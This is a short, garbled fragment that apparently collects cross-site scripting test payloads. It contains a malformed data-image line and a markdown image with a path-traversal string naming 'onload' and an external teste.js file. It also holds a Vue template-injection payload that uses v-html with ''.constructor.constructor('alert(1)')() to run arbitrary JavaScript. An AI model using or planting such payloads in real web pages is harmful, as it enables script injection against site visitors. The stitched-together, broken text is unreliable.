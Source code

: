 ![](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=10)

<div v-html="''.constructor.constructor('alert(1)')()">a</div>
